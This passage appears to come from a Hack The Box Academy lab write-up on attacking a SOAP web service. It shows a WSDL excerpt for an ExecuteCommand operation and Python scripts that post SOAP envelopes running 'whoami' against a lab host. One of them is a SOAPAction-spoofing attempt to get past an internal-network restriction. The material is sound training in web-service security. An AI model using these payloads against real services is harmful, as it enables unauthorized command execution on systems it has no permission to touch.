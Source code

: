 ```
	
    <!-- SOAP ExecuteCommand Action -->
    <wsdl:operation name="ExecuteCommand">
      <soap:operation soapAction="ExecuteCommand" style="document"/>
      <wsdl:input>
        <soap:body use="literal"/>
      </wsdl:input>
      <wsdl:output>
        <soap:body use="literal"/>
      </wsdl:output>
    </wsdl:operation>

  </wsdl:binding>

[SNIP]
```

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 client.py

b'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<ExecuteCommandResponse xmlns="http://tempuri.org/">
<success>false</success>
<error>This function is only allowed in internal networks</error>
</ExecuteCommandResponse>
</soap:Body>
</soap:Envelope>'
❌
```

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
